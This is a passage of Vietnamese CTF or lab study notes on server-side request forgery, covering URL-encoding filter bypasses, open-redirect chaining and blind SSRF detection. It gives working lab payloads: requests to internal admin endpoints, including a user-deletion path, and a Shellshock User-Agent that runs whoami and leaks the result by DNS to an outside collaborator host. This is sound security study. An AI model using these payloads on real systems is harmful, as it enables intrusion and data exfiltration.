         các ký tự; một số máy chủ giải mã URL đệ quy đầu vào mà chúng nhận được, điều này có thể dẫn đến sự khác biệt hơn nữa.
        
    - Có thể sử dụng kết hợp các kỹ thuật này với nhau
    
    ctf phần này http://localhost:80%2523@stock.weliketoshop.net cdùng kí tự #@ mã hóa # 
    
- **Dựa trên chuyển hướng mở**
    
     API được sử dụng để thực hiện yêu cầu HTTP phía sau hỗ trợ chuyển hướng, bạn có thể tạo một URL đáp ứng bộ lọc và dẫn đến yêu cầu được chuyển hướng đến mục tiêu phía sau mong muốn.
    
    Ví dụ: ứng dụng chứa lỗ hổng chuyển hướng mở trong đó URL sau:
    
    ```
    /product/nextProduct?currentProductId=6&path=http://evil-user.net
    ```
    
    trả về một chuyển hướng đến:
    
    ```
    http://evil-user.net
    ```
    
    Bạn có thể tận dụng lỗ hổng chuyển hướng mở để vượt qua bộ lọc URL và khai thác lỗ hổng SSRF như sau:
    
    ```
    POST /product/stock HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 118
    
    stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
    ```
    
    Việc khai thác SSRF này hoạt động vì trước tiên ứng dụng xác thực rằng `stockAPI`URL được cung cấp nằm trên một miền được phép. Sau đó, ứng dụng sẽ yêu cầu URL được cung cấp để kích hoạt chuyển hướng mở
    
    ctf phần này : /product/nextProduct?currentProductId=2&path=http://192.168.0.12:8080/admin/delete?username=carlos
    
    lợi dụng việc có thể điều hướng  bởi next sản phẩm (sử dụng bắt chặn trên burpsuite) có thể điều hướng ra bên ngoài và dùng để điều hướng tới trang admin bằng stockAPI
    

**Blind SSRF**

Lỗ hổng SSRF mù xảy ra nếu bạn có thể khiến ứng dụng đưa ra yêu cầu HTTP back-end tới một URL được cung cấp nhưng phản hồi từ yêu cầu back-end không được trả về trong phản hồi front-end của ứng dụng.

**khai thác :**

- Nhận biết bằng cách sử dụng subdomain của collaborators ping ra xem có bắt được ko
- Sửa User-Agent thành () { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
- Cuối cùng vén cạn ip bằng dải ip nạn nhân ví dụ Referer: http://192.168.0.§1§:8080/

**Tìm bề mặt tấn công ẩn**

- **URL một phần trong yêu cầu**
